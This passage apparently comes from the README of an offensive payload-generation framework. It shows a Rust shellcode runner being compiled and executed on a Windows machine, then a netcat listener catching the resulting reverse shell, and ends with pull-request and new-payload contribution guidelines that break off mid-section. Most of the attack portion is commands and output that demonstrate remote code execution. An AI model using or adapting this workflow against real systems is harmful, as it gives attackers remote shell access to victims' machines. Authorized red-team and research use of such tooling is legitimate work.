 Then compiled it using `rustc.exe`:

```
C:\Users\admin\Desktop>rustc sc_exec.rs
warning: static variable `buffer` should have an upper case name
 --> sc_exec.rs:6:12
  |
6 |     static buffer:[u8;564] = [
  |            ^^^^^^ help: convert the identifier to upper case: `BUFFER`
  |
  = note: `#[warn(non_upper_case_globals)]` on by default

warning: 1 warning emitted
```

Once compiled, I setup a handler and ran it like so:

```
C:\Users\admin\Desktop>sc_exec.exe
```

Once ran, I recieved a reverse shell :)

```
$ nc -lvp 4242
listening on [any] 4242 ...
X.X.X.X: inverse host lookup failed: Unknown host
connect to [Y.Y.Y.Y] from (UNKNOWN) [X.X.X.X] 50248
Microsoft Windows [Version 10.0.19045.5965]
(c) Microsoft Corporation. All rights reserved.

C:\Users\admin\Desktop>
```

# Creating a Pull Request (Generic Rules)

Depending on what the reason is for your pull request I ask you follow the guidlines below:

- If you are extended the core framework (say a header file) ensure that you match the structure layout to that of C code. I will be manually checking this so be patient when you submit a PR.

- Make sure that your module is documented appropriately. No need for a comment each line but it needs to be verbose enough for me to ensure no backdoors are added to the framework. Regardless, I will be testing your code!

- Try your best to stick to [PEP8](https://peps.python.org/pep-0008/), however I will not be super strict on this.

- Check your spelling and grammar. You don't need to have perfect comments but make sure that any information within a module is understable by a general audience.

- Minimize imports. If a module or function is not in use, please remove it!

## New Payloads

If you want to add a new payload it needs to fit the following criteria:
